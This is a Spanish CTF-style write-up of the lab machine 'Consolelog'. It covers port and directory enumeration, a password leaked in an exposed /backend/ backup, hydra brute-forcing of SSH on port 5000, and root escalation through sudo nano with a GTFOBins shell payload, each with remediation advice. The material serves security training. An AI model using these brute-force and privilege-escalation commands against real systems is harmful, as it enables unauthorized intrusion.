






# 🛡️ Writeup — Máquina "Consolelog"

**IP objetivo:** `172.17.0.2`
**Servicios expuestos:** `80 (HTTP)`, `3000 (Node.js Express)`, `5000 (SSH, puerto no estándar)`

---

## 📌 Resumen Ejecutivo

> [!summary]
> Compromiso total de la máquina (acceso root) explotando una exposición de información sensible en un directorio de backend (`/backend/`) y una mala configuración de privilegios `sudo` que permite abusar del editor `nano` para obtener ejecución de comandos.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -vvv -Pn 172.17.0.2
```
- `80/tcp`: Apache httpd 2.4.61 (servidor web)
- `3000/tcp`: Node.js Express framework
- `5000/tcp`: OpenSSH 9.2p1 (SSH en puerto no estándar)



### Enumeración web
```bash
whatweb http://172.17.0.2
```
Título del sitio: "Mi Sitio".

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt,log,bak
```


---

## 🚩 Hallazgos

### 🟠 H1: Exposición de contraseña en backup accesible (`/backend/`)

**Severidad:** Alta

**Resumen:** El directorio `/backend/` es accesible sin autenticación y contiene un archivo de respaldo con una contraseña de sistema expuesta en claro.

**PoC**

Búsqueda exhaustiva dentro de `/backend/`: se encuentra un archivo de respaldo con la contraseña `lapassworddebackupmaschingonadetodas`.



**Impacto:** Fuga de credencial válida del sistema.

**Recomendación:** No exponer directorios de backend/backups en el docroot público; auditar contenido servido por el webserver.

---

### 🟠 H2: Identificación de usuario válido mediante fuerza bruta dirigida (Hydra)

**Severidad:** Alta

**Resumen:** Sabiendo que el puerto `5000` corre SSH y disponiendo de la contraseña filtrada en H1, se usa `hydra` para identificar qué usuario del sistema la utiliza.

**PoC**
```bash
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas -s 5000 ssh://172.17.0.2 -t 64
```
Credenciales encontradas: `lovely` / `lapassworddebackupmaschingonadetodas`



```bash
ssh -p 5000 lovely@172.17.0.2
```

**Impacto:** Acceso inicial al sistema.

**Recomendación:** No reutilizar una misma contraseña filtrada para múltiples cuentas; monitorizar intentos de autenticación fallidos.

---

### 🔴 H3: Escalada de privilegios vía `sudo` sobre `nano` (NOPASSWD)

**Severidad:** Crítica

**Resumen:** El usuario `lovely` puede ejecutar `nano` como root sin contraseña. El editor permite ejecutar comandos desde su propia interfaz, permitiendo obtener una shell root (GTFOBins).

**Detalle / Causa raíz**
```bash
sudo -l
```
```
(ALL) NOPASSWD: /usr/bin/nano
```


**PoC**
```bash
sudo /usr/bin/nano
```
1. `Ctrl + R` (Leer archivo)
2. `Ctrl + X` (Ejecutar comando)
3. Payload: `reset; sh 1>&0 2>&0`
4. `Enter`

Al presionar Enter, el editor se cierra y devuelve una shell interactiva como `root`.



**Impacto:** Compromiso total del sistema.

**Recomendación:** Eliminar `NOPASSWD` sobre editores de texto con capacidad de ejecutar comandos externos (`nano`, `vim`, etc. — ver GTFOBins).

---

## 🔗 Cadena de ataque

```text
Enumeración web → contraseña filtrada en /backend/ (H1) → fuerza bruta dirigida (H2, usuario lovely) →
acceso SSH → sudo nano NOPASSWD (H3) → root
```

---

## 🛡️ Recomendaciones generales

- No exponer directorios de backend/backups.
- No reutilizar contraseñas filtradas entre cuentas.
- Eliminar `NOPASSWD` sobre editores de texto y binarios interactivos.

---

## 🧾 Conclusión

> [!summary]
> Se logró el compromiso total de la máquina explotando una exposición de información sensible en `/backend/` y una mala configuración de privilegios `sudo` que permitía abusar de un editor de texto para obtener ejecución de comandos.
